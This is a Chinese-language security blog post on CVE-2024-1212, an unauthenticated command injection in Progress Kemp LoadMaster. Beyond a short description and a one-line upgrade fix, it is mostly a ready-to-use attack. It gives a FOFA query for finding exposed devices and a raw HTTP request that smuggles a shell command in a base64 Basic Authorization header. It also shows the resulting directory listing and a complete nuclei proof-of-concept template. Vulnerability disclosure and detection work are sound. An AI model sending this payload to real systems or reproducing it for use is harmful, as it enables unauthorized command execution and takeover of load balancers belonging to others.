 #  CVE-2024-1212   
原创 fgz  AI与网安   2024-05-07 07:10  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Progress Kemp LoadMaster 远程命令执行漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
LoadMaster <= 7.2.59.2 (GA)  
  
LoadMaster<=7.2.54.8 (LTSF)  
  
LoadMaster <= 7.2.48.10 (LTS)  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Progress Kemp LoadMaster是一款负载均衡和应用交付控制器。  
LoadMaster /access/set接口处存在  
远程命令执行漏洞，  
攻击者可以通过未经身份验证的方式访问LoadMaster管理接口，从而执行任意系统命令。这可能导致系统遭受严重的安全威胁。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
body="LoadMaster"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP0b0CgV7N06TWBLnPicIcvAz6T5xZrTEFbLJjueKTUibS2Ml2vc22yiaf0YZqVrCl02ToRBV6UJevsw/640?wx_fmt=png&from=appmsg "")  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包，其中  
JztsczsnOmRvZXNub3RtYXR0ZXI=  
是';ls;':doesnotmatter的base64编码  
```
GET /access/set?param=enableapi&value=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/604.1 (KHTML, like Gecko) Version/9.1.2 Safari/604.1
Connection: close
Accept: */*
Accept-Language: en
Authorization: Basic JztsczsnOmRvZXNub3RtYXR0ZXI=
Accept-Encoding: gzip
```  
  
响应内容如下  
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html
Date: Mon, 06 May 2024 05:58:52 GMT

azurelinuxagent
bin
cgroup
dev
etc
initial_setup.sh
lib
lib64
lost+found
mnt
one4net
openssl
proc
root
sbin
sks
sys
tmp
user
usr
var
sh: : command not found
Status: 401 Unauthorized
Content-Type: text/html
WWW-Authenticate: Basic realm=user

<!DOCTYPE html>
<HTML><HEAD>
<TITLE>401 Unauthorized</TITLE>
</HEAD><BODY>
<H1>Permission Denied</H1>
No permission to access document<P><HR></BODY></HTML>
```  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-1212

info:
  name: Progress Kemp LoadMaster - Command Injection
  author: DhiyaneshDK
  severity: critical
  description: |
    Unauthenticated remote attackers can access the system through the LoadMaster management interface, enabling arbitrary system command execution.
  reference:
    - https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster
    - https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212
    - https://support.kemptechnologies.com/hc/en-us/articles/24325072850573-Release-Notice-LMOS-7-2-59-2-7-2-54-8-7-2-48-10-CVE-2024-1212
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1212
    - https://freeloadbalancer.com/
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2024-1212
    cwe-id: CWE-78
    epss-score: 0.00721
    epss-percentile: 0.802
  metadata:
    verified: true
    max-request: 1
    shodan-query: html:"LoadMaster"
  tags: cve,cve2024,progress,rce,loadmaster

http:
  - method: GET
    path:
      - "{{BaseURL}}/access/set?param=enableapi&value=1"
    headers:
      Authorization: "Basic JztsczsnOmRvZXNub3RtYXR0ZXI="

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "bin"
          - "mnt"
          - "WWW-Authenticate: Basic"
        condition: and

      - type: status
        status:
          - 200
# digest: 4a0a0047304502203c9fc29ea41909ec2bef545f7a4e29b165e9e11f14bade221b2ffc058c2c9051022100e36e3225d79c6a7ba704b8766c5603e5b2822e539c707a4f2a1a17052f2dfc47:922c64590222798bb761d5b6d8e72950
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
  
  
